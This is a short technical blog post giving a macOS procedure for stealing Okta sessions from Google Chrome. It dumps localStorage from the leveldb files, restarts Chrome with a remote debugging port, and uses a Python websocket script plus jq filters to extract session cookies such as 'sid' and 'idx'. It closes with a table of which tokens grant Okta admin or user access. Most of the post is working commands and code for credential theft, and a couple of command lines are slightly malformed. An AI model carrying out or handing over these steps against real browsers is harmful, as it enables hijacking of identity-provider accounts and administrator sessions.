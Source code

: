 ```yaml
---
layout: post
title:  "Dumping Okta Sessions in Chrome"
date:   2024-11-17 03:00:00 -0600
categories: 
---
```


# Local Storage

Google Chrome (macOS) localStorage is saved on the filesystem in the leveldb file: `/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb`.[^1]

To dump localStorage:
* `git clone https://github.com/rdreher/chromeStorageDump.git`
* `npm install levelup leveldown`
* Avoid a file lock, by first copying leveldb to /tmp
* `cp -R "/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb" "/tmp/leveldb"`
* `node chromeStorageDump.js -k okta-cache-storage "/tmp/leveldb"`

# Cookies

Google Chrome (macOS) cookies are stored in an encrypted SQLite database with the key saved in the keychain.[^2] [^3] Unencrypted cookies can still be fetched by attaching a remote chrome debugger.[^4] [^5] This technique requires existing Chrome browsers to be restarted with the `--remote-debugging-port` flag. 

* `killall Google\ Chrome`
* `/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --remote-allow-origins="*" --remote-debugging-port=9222 --user-data-dir="/Users/<user>/Library/Application Support/Google/Chrome" --restore-last-session --profile-directory=Default`

The following `/json` endpoint provides a list of websocket addresses. 
* `curl http://localhost:9222/json`

Using a websocket client, connect using the correct page id to dump the unencrypted cookie in JSON format.

* `pip3 install websocket`
* `pip3 install websocket-client`

#### **`ripWCMN.py`**
```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/<id>", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv())
```
* `python3 rip ripWCMN.py  | jq -r '.[] | select(.url="https://<subdomain>.okta.com/app/UserHome")'`
* `python3 rip ripWCMN.py  | jq -c '.result.cookies[] | select(.name="idx")'`

> CREDIT - Justin Bui & @mangopdf

# Okta

If an admin session is stolen from `{tenant}.okta.com`, the session cookie can be used on `{tenant}-admin.okta.com`.[^6]

| Account | Name | Type | Note |
|---|---|---|---|
| Okta Admin | sid | cookie |  |
| Okta User | okta-token-storage | localStorage | JWT Auth Bearer |
| Okta User | idx | cookie | Reveals more data than bearer token |

### References:
[^1]: https://github.com/rdreher/chromeStorageDump
[^2]: https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies
[^3]: https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec
[^4]: https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f
[^5]: https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e
[^6]: https://www.linkedin.com/pulse/oktas-so-secret-less-secure-api-authentication-method-chaim-sanders/